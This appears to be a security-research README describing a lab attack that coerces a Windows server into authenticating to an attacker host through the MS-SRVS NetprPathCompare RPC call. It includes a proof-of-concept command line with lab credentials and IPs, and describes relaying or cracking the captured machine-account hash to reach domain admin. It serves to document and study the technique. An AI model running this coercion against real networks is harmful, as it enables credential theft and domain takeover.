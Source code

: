 # MS-SRVS - Remote call to NetprPathCompare (opnum 32)

## Summary

 - **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

 - **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

 - **Protocol version**: 3.0

 - **SMB Named pipe**: `\PIPE\srvsvc`

 - **Function name**: [`NetprPathCompare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/2b9b4b27-cef4-4f13-b9e7-f63f6261d709)

 - **Function operation number**: `32`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetprPathCompare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/2b9b4b27-cef4-4f13-b9e7-f63f6261d709) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetprPathCompare('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long NetprPathCompare(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in, string] WCHAR* PathName1,
   [in, string] WCHAR* PathName2,
   [in] DWORD PathType,
   [in] DWORD Flags
 );
```

## References

 - Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

 - Documentation of function `NetprPathCompare`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/2b9b4b27-cef4-4f13-b9e7-f63f6261d709